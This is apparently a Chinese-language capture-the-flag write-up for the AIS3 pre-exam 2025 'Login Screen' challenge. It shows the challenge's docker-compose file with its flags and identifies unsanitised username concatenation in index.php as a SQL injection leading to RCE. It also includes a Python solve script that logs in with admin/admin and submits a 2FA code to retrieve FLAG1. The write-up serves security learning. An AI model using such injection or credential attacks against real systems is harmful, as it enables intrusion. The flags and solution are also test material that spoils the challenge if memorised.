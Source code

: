 flag: `AIS3{2.Nyan_Nyan_File_upload_jWvuUeUyyKU}`

觀察 docker-compose.yml 會發現 flag2 被寫在環境變數，並且觀察其他檔案發現沒有任何頁面嘗試獲取 flag2

```yml
services:
  cms:
    build: ./cms
    ports:
      - "36368:80"
    volumes:
      - ./cms/html/2fa.php:/var/www/html/2fa.php:ro
      - ./cms/html/dashboard.php:/var/www/html/dashboard.php:ro
      - ./cms/html/index.php:/var/www/html/index.php:ro
      - ./cms/html/init.php:/var/www/html/init.php:ro
      - ./cms/html/logout.php:/var/www/html/logout.php:ro
      - ./cms/html/users.db:/var/www/html/users.db:ro
      - ./cms/html/styles.css:/var/www/html/styles.css:ro
    environment:
      - FLAG1=AIS3{1.This_is_the_first_test_flag}
      - FLAG2=AIS3{2.This_is_the_second_test_flag}
```

觀察 index.php 會發現 username 的值會直接被串接進去 SQL 裡面，並且不會事先經過任何處理，所以有 sql injection 風險

![image](/images/ais3-pre-exam-2025/ais3-pre-exam-2025_image50.png)

所以可以透過這邊去做 sql injection 再 RCE 把 flag 寫在可以造訪的到的檔案，不過這邊因為我沒有到擅長 web 因此 payload 部分是使用 AI 構建的，Login Screen 1、2 解題 script 如下

```py
import requests
import re
import time
BASE_URL = "http://login-screen.ctftime.uk:36368"
def get_flag1():
    print("=== 獲取 FLAG1 ===")
    session = requests.Session()
    print("[+] 訪問首頁...")
    response = session.get(f"{BASE_URL}/")
    print("[+] 使用 admin/admin 登入...")
    login_data = {
        'username': 'admin',
        'password': 'admin'
    }
    response = session.post(f"{BASE_URL}/index.php", data=login_data)
    if "2FA" not in response.text:
        print("[-] 登入失敗")
        return None
    print("[+] 登入成功，重定向到2FA頁面")
    print("[+] 輸入2FA碼...")
    fa_data = {
        'code': '51756447753485459839'
    }
    response = session.post(f"{BASE_URL}/2fa.php", data=fa_data)
    if "Welcome" not in response.text:
        print("[-] 2FA驗證失敗")
        return None
    print("[+] 2FA驗證成功")
    if "AIS3{" in response.text:
        flag_match = re.search(r'AIS3\{[^}]+\}', response.text)
        if flag_match:
            flag1 = flag_match.group(0)
            print(f"[*] FLAG1: {flag1}")
            return flag1
    print("[-] 未找到FLAG1")
```